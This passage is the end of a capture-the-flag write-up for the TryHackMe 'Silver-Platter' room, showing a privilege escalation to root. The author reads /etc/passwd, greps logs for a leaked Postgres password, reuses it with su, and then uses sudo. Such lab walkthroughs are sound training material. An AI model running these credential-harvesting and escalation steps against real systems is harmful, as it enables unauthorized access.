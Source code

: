 ````shell
tim@silver-platter:~$
````
Once inside, I successfully retrieve the user **flag!**

## Privilege Escalation
Now, I need to **escalate privileges** to `root` in order to retrieve the  **root flag**. Time to enumerate the system and look for potential `privilege escalation` vectors!
````shell
tim@silver-platter:/$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
tim@silver-platter:/$ 
````
Upon enumeration `tim` group, I see that he belongs to the `adm` group. This grants access to `/var/log/`.
```shell
tim@silver-platter:/$ cat /etc/passwd
tyler:x:1000:1000:root:/home/tyler:/bin/bash
````
& I also discovered another user, `tyler`. Now, let's search the logs for any entries related to the user `tyler`.
````shell
tim@silver-platter:/$ grep -a 'tyler' /var/log/*
New session 1 of user tyler.
tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql \
-d -e POSTGRES_PASSWORD=[REDACTED]
```` 
I used `POSTGRES_PASSWORD` to switch to the `tyler` user, and it worked.
````shell
tim@silver-platter:/var/log$ su tyler
Password:
tyler@silver-platter:/var/log$ cd ~
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),
4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
tyler@silver-platter:~$ 
````
This user has unrestricted sudo privileges, allowing them to execute any command as root. With a simple `sudo su`, I elevate privileges to `root`.
````shell
tyler@silver-platter:~$ sudo su
[sudo] password for tyler:
root@silver-platter:/home/tyler# cd /root/
root@silver-platter:~# cat root.txt
[REDACTED]
````
Navigating to the `/root/` directory, I finally retrieve the **root flag**,
![SilverplatterSolved.png](Assets/Pictures/SilverPlatter/SilverplatterSolved.png)
completing the [Silver-Platter](https://tryhackme.com/room/silverplatter) room!

---

## Happy hacking !
Here are some resources:
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36042)
* [https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)